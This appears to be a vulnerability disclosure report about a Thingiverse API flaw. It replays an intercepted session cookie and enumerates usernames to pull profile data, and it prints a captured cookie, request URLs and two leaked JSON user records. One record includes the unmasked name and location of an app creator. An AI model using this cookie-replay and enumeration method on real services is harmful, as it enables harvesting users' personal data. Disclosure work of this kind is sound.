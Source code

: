 # About Thingiverse Website Information Disclosure Security Vulnerability Description

## 1 Security vulnerability implementation steps 
### 1.1 Get Header request data
Intercept browser Cookie information after logging in by a valid user.
```
Cookie:_cfuvid=4N5qYb626LMdwIb1nOTsKW.IrFXUC9bfKqznyIGEEMk-1712103440804-0.0.1.1-604800000; path=/; domain=.thingiverse.com; HttpOnly; Secure; SameSite=None
```

### 1.2 Add cookie to the replay attack HTTP Request Header

## 2 Disclosure of user information by replay attack

> Leaked information includes: username, email, country, registration date, etc.

> Request method: GET, information can be obtained by traversing the constructed username, such as "yizhimuzhu666","Albort"...

API URL\application unit and request parameters of verified project information leakage are shown in the following table:

| authenticated user | API URL | Request params     |
|---|---|--------------------|
|Yizhimuzhu666|https://api.thingiverse.com/users/yizhimuzhu666?t=1712102338737| name=yizhimuzhu666 |
|Albort|https://api.thingiverse.com/users/Albort?t=1712102338737| name=Albort        |


### Leaked packet cases 
yizhimuzhu666:
``` {
 "id": 7894507,
    "name": "yizhimuzhu666",
    "first_name": "*****",
    "last_name": "****",
    "full_name": "******",
    "email": "example@email.com",
    "url": "https:\/\/api.thingiverse.com\/users\/yizhimuzhu666",
    "public_url": "https:\/\/www.thingiverse.com\/yizhimuzhu666",
    "thumbnail": "https:\/\/cdn.thingiverse.com\/site\/img\/default\/avatar\/avatar_maker_thumb_medium.jpg",
    "bio": "",
    "level": 10,
    "bio_html": "<div><\/div>\n",
    "location": "\u7f8e\u56fd",
    "country": "United States",
    "registered": "2024-03-30T10:37:12+00:00",
    "last_active": "2024-04-03T00:17:18+00:00",
    "cover_image": "https:\/\/cdn.thingiverse.com\/site\/img\/default\/cover\/cover-4_preview_large.jpg",
    "things_url": "https:\/\/api.thingiverse.com\/users\/yizhimuzhu666\/things",
    "copies_url": "https:\/\/api.thingiverse.com\/users\/yizhimuzhu666\/copies",
    "likes_url": "https:\/\/api.thingiverse.com\/users\/yizhimuzhu666\/likes",
    "printers": [
        {
            "id": 13,
            "name": "AW3D XL",
            "public_url": "AW3D XL"
        }
    ],
    "programs": [
        {
            "id": 28,
            "name": "Illustrator"
        }
    ],
    "types": [
        {
            "id": 7,
            "name": "Maker"
        },
        {
            "id": 11,
            "name": "Engineer"
        },
        {
            "id": 2,
            "name": "Artist"
        }
    ],
    "skill_level": "",
    "accepts_tips": false,
    "groups": [],
    "website": "",
    "twitter": null,
    "count_of_followers": 0,
    "count_of_following": 0,
    "count_of_designs": 0,
    "collection_count": 1,
    "make_count": 0,
    "like_count": 3,
    "has_favorite": false,
    "favorite_count": 0,
    "is_admin": false,
    "is_moderator": false,
    "default_license": "cc-sa",
    "current_app": {
        "id": 1926,
        "name": "Thingiverse NEXT",
        "url": "https:\/\/api.thingiverse.com\/apps\/1926",
        "public_url": "https:\/\/www.thingiverse.com\/app:1926",
        "thumbnail": "https:\/\/cdn.thingiverse.com\/site\/img\/default\/Gears_thumb_medium.jpg",
        "creator": {
            "id": 1193737,
            "name": "tjhorner",
            "first_name": "TJ",
            "last_name": "Horner",
            "url": "https:\/\/api.thingiverse.com\/users\/tjhorner",
            "public_url": "https:\/\/www.thingiverse.com\/tjhorner",
            "thumbnail": "https:\/\/cdn.thingiverse.com\/assets\/f0\/80\/7c\/24\/22\/me.jpg",
            "count_of_followers": 26,
            "count_of_following": 3,
            "count_of_designs": 11,
            "collection_count": 2,
            "make_count": 4,
            "accepts_tips": true,
            "is_following": false,
            "location": "Brooklyn, NY",
            "cover": "https:\/\/cdn.thingiverse.com\/assets\/5e\/52\/83\/6b\/f4\/filament_jam.jpg",
            "is_admin": false,
            "is_moderator": false
        },
        "is_published": false,
        "is_approved": false
    }
```
Albort:
``` {
 "id": 5500300,
    "name": "Albort",
    "first_name": "*****",
    "last_name": "*****",
    "full_name": "*****",
    "email": "",
    "url": "https:\/\/api.thingiverse.com\/users\/Albort",
    "public_url": "https:\/\/www.thingiverse.com\/Albort",
    "thumbnail": "https:\/\/cdn.thingiverse.com\/site\/img\/default\/avatar\/avatar_default_thumb_medium.jpg",
    "bio": "",
    "level": 10,
    "bio_html": "<div><\/div>\n",
    "location": "",
    "country": "",
    "registered": "2023-04-10T09:30:45+00:00",
    "last_active": "2023-04-10T09:30:45+00:00",
    "cover_image": "https:\/\/cdn.thingiverse.com\/site\/img\/default\/cover\/cover-1_preview_large.jpg",
    "things_url": "https:\/\/api.thingiverse.com\/users\/Albort\/things",
    "copies_url": "https:\/\/api.thingiverse.com\/users\/Albort\/copies",
    "likes_url": "https:\/\/api.thingiverse.com\/users\/Albort\/likes",
    "printers": [],
    "programs": [],
    "types": [],
    "skill_level": "",
    "accepts_tips": false,
    "groups": [],
    "website": "",
    "twitter": null,
    "count_of_followers": 0,
    "count_of_following": 0,
    "count_of_designs": 0,
    "collection_count": 1,
    "make_count": 0,
    "like_count": 0,
    "has_favorite": false,
    "favorite_count": 0,
    "is_admin": false,
    "is_moderator": false,
    "is_following": false
```
